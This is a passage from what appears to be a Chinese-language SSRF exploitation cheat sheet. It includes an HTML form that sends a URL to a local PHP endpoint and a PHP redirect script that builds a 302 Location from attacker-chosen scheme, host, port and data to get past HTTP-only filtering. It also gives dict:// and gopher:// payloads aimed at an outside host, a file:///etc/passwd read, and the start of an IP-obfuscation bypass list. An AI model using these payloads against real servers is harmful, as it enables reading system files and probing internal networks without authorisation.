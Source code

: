 构造一个前端页面

```html
<html>
<body>
  <form name="px" method="post" action="http://127.0.0.1/ss.php">
    <input type="text" name="url" value="">
    <input type="submit" name="commit" value="submit">
  </form>
  <script></script>
</body>
</html>
```

请求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳转绕过 HTTP 协议的限制。

辅助脚本

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

[腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)

## 协议利用

-   Dict 协议

    ```
    dict://fuzz.wuyun.org:8080/helo:dict
    ```

-   Gopher 协议

    ```
    gopher://fuzz.wuyun.org:8080/gopher
    ```

-   File 协议

    ```
    file:///etc/passwd
    ```
    
## 绕过姿势
1.  更改IP地址写法
    例如`192.168.0.1`
    